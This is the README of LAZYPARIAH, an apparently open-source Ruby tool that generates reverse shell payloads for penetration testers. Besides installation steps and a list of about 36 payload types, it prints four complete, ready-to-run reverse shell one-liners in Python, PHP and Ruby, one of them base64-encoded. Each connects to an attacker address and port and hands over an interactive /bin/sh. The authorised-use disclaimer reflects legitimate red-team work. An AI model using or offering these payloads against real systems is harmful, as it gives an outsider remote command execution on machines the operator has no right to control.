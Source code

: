 # LAZYPARIAH
A tool for generating reverse shell payloads on the fly.

## Description
LAZYPARIAH is a simple command-line tool for generating a range of reverse shell payloads on the fly. It was written in pure Ruby and has no dependencies outside of the standard library.

This tool is intended to be used only in authorised circumstances by qualified penetration testers, security researchers and red team professionals. Before downloading, installing or using this tool, please ensure that you understand the relevant laws in your jurisdiction. The author of this tool does not endorse the usage of this tool for illegal or unauthorised purposes.

## Demonstration
![Alt text](./lazypariah.svg)

## Dependencies
* Ruby >= 2.7.1 (LAZYPARIAH has not been tested on previous versions of Ruby)

## Installation
LAZYPARIAH can be installed as follows:
```
gem install lazypariah
```

## Usage
```
Usage:  lazypariah [OPTIONS] <PAYLOAD TYPE> <ATTACKER HOST> <ATTACKER PORT>
Note:   <ATTACKER HOST> may be an IPv4 address, IPv6 address or hostname.

Example:        lazypariah -u python3_b64 10.10.14.4 1555
Example:        lazypariah python2_c malicious.local 1337

Valid Payloads:
    awk
    bash_tcp
    c_binary
    c_binary_b64
    c_binary_gzip
    c_binary_gzip_b64
    java_class_b64
    java_class_binary
    java_class_gzip_b64
    nc
    nc_pipe
    perl
    perl_c
    php_fd_3
    php_fd_3_c
    php_fd_3_tags
    php_fd_4
    php_fd_4_c
    php_fd_4_tags
    php_fd_5
    php_fd_5_c
    php_fd_5_tags
    php_fd_6
    php_fd_6_c
    php_fd_6_tags
    python
    python2_b64
    python2_c
    python3_b64
    python3_c
    python_b64
    python_c
    ruby
    ruby_b64
    ruby_c
    socat

Valid Options:
    -h, --help                       Display help text and exit.
    -l, --license                    Display license information and exit.
    -u, --url                        URL-encode the payload.
    -v, --version                    Display version information and exit.
```

## Examples
The payloads listed above are more-or-less systematically named. Payloads ending with `_b64` essentially pipe base64-encoded code through to `base64 -d` and then on through to the relevant interpreter (such as `python3`, `python2` or `ruby`).

Payloads ending with `_c` are directly executed using the relevant interpreter (e.g. `python3 -c` or `ruby -e`).

Some payloads will specify a file descriptor to be used, such as `php_fd_5_tags`, which is a PHP payload that uses file descriptor 5 and is enclosed within PHP tags (`<?php` and `?>`).

Below are some examples of commands and their respective outputs.

Output of command `lazypariah -u python3_b64 10.10.14.4 1337`:
```
echo%20aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjQiLDEzMzcpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOw%3D%3D%20%7C%20base64%20-d%20%7C%20python3
```
Output of command `lazypariah python2_c 10.10.14.4 1337`:
```
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Output of command `lazypariah php_fd_3_tags 10.10.14.4 1337`:
```
<?php $sock=fsockopen("10.10.14.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");?>
```
Output of command `lazypariah ruby 10.10.14.4 1337`:
```
require "socket";exit if fork;c=TCPSocket.new("10.10.14.4","1337");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end
```

## Author
Copyright (C) 2020 Peter Bruce Funnell

## License
This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program.  If not, see <https://www.gnu.org/licenses/>

## Support
If you found this project useful and would like to encourage me to continue making open source software, please consider making a donation via the following link:

https://www.buymeacoffee.com/peterfunnell

Donations in Bitcoin (BTC) are also very welcome. My BTC wallet address is as follows:

```
3EdoXV1w8H7y7M9ZdpjRC7GPnX4aouy18g
```
